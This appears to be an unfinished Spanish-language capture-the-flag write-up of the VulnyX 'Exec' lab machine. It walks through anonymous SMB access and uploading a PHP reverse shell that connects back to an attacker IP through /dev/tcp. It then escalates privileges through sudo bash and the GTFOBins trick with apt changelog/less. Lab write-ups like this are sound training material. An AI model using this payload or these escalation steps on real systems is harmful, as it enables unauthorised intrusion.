 <--
### WRITEUP - VULNYX - EXEC ##

## Scanning Network ##
netdiscover -r 10.0.2.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                    
                                                                                                                  
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.2.1        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.2        52:54:00:12:35:00      1      60  Unknown vendor                                                 
 10.0.2.3        08:00:27:8f:22:b9      1      60  PCS Systemtechnik GmbH                                         
 10.0.2.7        08:00:27:15:3c:0d      1      60  PCS Systemtechnik GmbH 


first nmap
nmap services
	$ smb(smbd 4.6.2), http (apache 2.4.57 misma CVE que en Hacking station), ssh, netbios
## Enumeration ##
nmap netbios
	$ nmap -p139,445 --script nbstat 10.0.2.7
smb client
	$ smbclient -L //10.0.2.7 -U "" -N > enumeration/smbclient_list
Probamos a conectarnos a algúno de los shares con contraseña en blanco. Lo conseguimos en el share server
	$ smbclient //10.0.2.7/server -U ""
	Password for [WORKGROUP\]:
	Try "help" to get a list of possible commands.
	smb: \> 
Podemos listar el directorio y vemos un index.html. Tiene pinta que aquí es donde se hostea el servicio web 
	smb: \> ls
	  .                                   D        0  Mon Apr 15 04:45:54 2024
	  ..                                  D        0  Mon Apr 15 04:04:12 2024
	  index.html                          N    10701  Mon Apr 15 04:04:31 2024

	                19480400 blocks of size 1024. 16499224 blocks available
Esto lo tendremos en cuenta para poder introducir una reverse shell
Procedemos a enumerar smb con enum4linux -r 10.0.2.7 mientras miramos el servicio web
En el servicio web nos encontramos la págia por defecto de un servicio apache, por lo que poco podemos hacer.
~~Imagen servicio web~~
Mientras revisamos el enum4linux, podemos ir tirando un dirbuster y recoger posibles rutas adicionales en el servicio
web
	$ dirb http://10.0.2.7:80
Nada interesante en el dirbuster
pero en el enum4linux, obtenemos un usuario llamado s3cur4.

### Weaponization/Gaining access ###
Ya que tenemos un acceso por un share, vamos a probar a copiarnos una reverse shell en php por ejemplo y probar a ejecutarla
Vamos a montarnos una particion para poder realizar las acciones necesarias de forma más sencilla
	$ mkdir /mnt/Exec
	$ mount -t cifs -o user="" -o password="" //10.0.2.7/server /mnt/Exec
Creamos el script, lo copiamos y nos ponemos a la escucha:
	$ cp reverse_shell.php /mnt/Exec
	<?php exec("bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'");?>
	$ nc -nlvp 443
Una vez hecho esto vamos a ver si se carga en el servidor y ejecuta nuestro script php
~~Imagen reverse shell~~
Tenemos acceso al servidor. Ahora vamos a tratar la shell:
~~Copiar de otros md el tratamiento de shell~~
### Privilege escalation ###
Vemos que somos www-data y que no tenemos permisos aparentes
	www-data@exec:/var/www/html$ whoami
	www-data
	www-data@exec:/var/www/html$ id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
Por el enum4linux lanzado anteriormente, sabemos que existe un usuario local llamado s3cur4 pero no tenemos acceso
a su home para obtener la flag:
	www-data@exec:/var/www/html$ ls -la /home/s3cur4/
	ls: cannot open directory '/home/s3cur4/': Permission denied
Viendo si tenemos permisos con sudo, podemos ver que tenemos acceso a una bash siendo s3cur4:
	www-data@exec:/var/www/html$ sudo -l
		Matching Defaults entries for www-data on exec:
    			env_reset, mail_badpass,
    			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    			use_pty

		User www-data may run the following commands on exec:
    			(s3cur4) NOPASSWD: /usr/bin/bash
Podemos abusar de este permiso con www-data y que nos devuelva una bash:
	sudo -u s3cur4 /bin/bash
Obtenemos una shell como s3cur4
	www-data@exec:/var/www/html$ sudo -u s3cur4 /bin/bash
	s3cur4@exec:/var/www/html$ whoami
	s3cur4
Una vez dentro como el usuario, buscamos y obtenemos la flag:
	s3cur4@exec:/var/www/html$ ls -la /home/s3cur4/
	total 28
	drwx------ 3 s3cur4 s3cur4 4096 Apr 15 10:56 .
	drwxr-xr-x 3 root   root   4096 Apr 15 09:56 ..
	lrwxrwxrwx 1 root   root      9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r-- 1 s3cur4 s3cur4  220 Nov 15 10:23 .bash_logout
	-rw-r--r-- 1 s3cur4 s3cur4 3526 Nov 15 10:23 .bashrc
	drwxr-xr-x 3 s3cur4 s3cur4 4096 Apr 15 10:17 .local
	-rw-r--r-- 1 s3cur4 s3cur4  807 Nov 15 10:23 .profile
	-r-------- 1 s3cur4 s3cur4   33 Apr 15 10:56 user.txt
	s3cur4@exec:/var/www/html$ cat /home/s3cur4/user.txt 
	45e398cc820ab08df0e3a414eac58fef
Ahora, procederemos a escalar a root.
Identificamos los permisos del usuario sobre sudo.
s3cur4@exec:/var/www/html$ sudo -l
	Matching Defaults entries for s3cur4 on exec:
    	env_reset, mail_badpass,
    	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    	use_pty

	User s3cur4 may run the following commands on exec:
    		(root) NOPASSWD: /usr/bin/apt
Observamos que tenemos permisos para ejecutar un binario llamado : */usr/bin/apt*. Analizamos el comportamiento de
este binario
	s3cur4@exec:/var/www/html$ sudo /usr/bin/apt
	apt 2.6.1 (amd64)
	Usage: apt [options] command

	apt is a commandline package manager and provides commands for
	searching and managing as well as querying information about packages.
	It provides the same functionality as the specialized APT tools,
	like apt-get and apt-cache, but enables options more suitable for
	interactive use by default.

	Most used commands:
	  list - list packages based on package names
	  search - search in package descriptions
	  show - show package details
	  install - install packages
	  reinstall - reinstall packages
	  remove - remove packages
	  autoremove - automatically remove all unused packages
	  update - update list of available packages
	  upgrade - upgrade the system by installing/upgrading packages
	  full-upgrade - upgrade the system by removing/installing/upgrading packages
	  edit-sources - edit the source information file
	  satisfy - satisfy dependency strings

	See apt(8) for more information about the available commands.
	Configuration options and syntax is detailed in apt.conf(5).
	Information about how to configure sources can be found in sources.list(5).
	Package and version choices can be expressed via apt_preferences(5).
	Security details are available in apt-secure(8).
	                                        This APT has Super Cow Powers.
Buscamos alguna forma de vulnerar el sistema con este comando. Dentro de GTFOBins, tenemos una entrada de *apt*
~~Captura apt entrada~~
Y observamos que podemos obtener una shell como root siguiendo los siguientes pasos:
~~Captura sudo~~
Vamos a probar a utilizar el bypass por el changelog (como less) para obtener una shell como root. Para esto, usamos
el comando indicado y luego, dentro de la visualización con less, podemos escribir y ejecutar *!/bin/bash*

De esta forma obtenemos el acceso como root
	s3cur4@exec:/var/www/html$ sudo apt changelog apt
	Get:1 https://metadata.ftp-master.debian.org apt 2.6.1 Changelog [505 kB]
	Fetched 505 kB in 0s (1601 kB/s)
	root@exec:/var/www/html# whoami
	root
Una vez ya con acceso a root, tenemos control total de la máquina. Obtenemos el flag de root:
	root@exec:/var/www/html# ls -la /root/
	total 32
	drwx------  4 root root 4096 Apr 21 20:45 .
	drwxr-xr-x 18 root root 4096 Apr 15 09:48 ..
	lrwxrwxrwx  1 root root    9 Apr 15 10:53 .bash_history -> /dev/null
	-rw-r--r--  1 root root 3526 Apr 15 10:05 .bashrc
	-rw-------  1 root root   38 Apr 21 20:45 .lesshst
	drwxr-xr-x  3 root root 4096 Apr 15 09:57 .local
	-rw-r--r--  1 root root  161 Jul  9  2019 .profile
	drwx------  2 root root 4096 Apr 15 11:21 .ssh
	-r--------  1 root root   33 Apr 15 10:54 root.txt
	root@exec:/var/www/html# cat /root/root.txt 
	97d8adddb3a3aa8b63e28c2396c5e53f
-->
